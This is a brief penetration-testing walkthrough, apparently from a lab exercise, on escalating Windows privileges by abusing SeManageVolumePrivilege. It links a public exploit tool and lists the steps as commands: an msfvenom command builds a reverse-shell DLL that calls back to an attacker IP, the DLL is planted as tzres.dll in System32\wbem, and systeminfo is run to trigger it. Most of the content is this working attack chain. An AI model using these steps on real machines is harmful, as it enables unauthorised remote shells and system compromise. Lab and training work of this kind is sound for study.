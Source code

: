 whoami /priv

PRIVILEGES INFORMATION
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
**SeManageVolumePrivilege       Perform volume maintenance tasks Disabled**
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled

-  [https://github.com/CsEnox/SeManageVolumeExploit](#https://github.com/CsEnox/SeManageVolumeExploit)


-  send SeManageVolumeExploit\.exeover to victim machine \(this allows us to write in C: drive and potentially inject a crafted DLL file\)
-  systeminfoutilises tzres\.dllwhile executing and is stored in C:\\Windows\\System32\\wbem\\

-  msfvenom \-p windows/x64/shell\_reverse\_tcp LHOST=192\.168\.45\.203 LPORT=4411 \-f dll \> tzres\.dll
-  send tzres\.dll to victim machine and store it in C:\\Windows\\System32\\wbem\\

-  systeminfo
whoami
nt authority\\network service
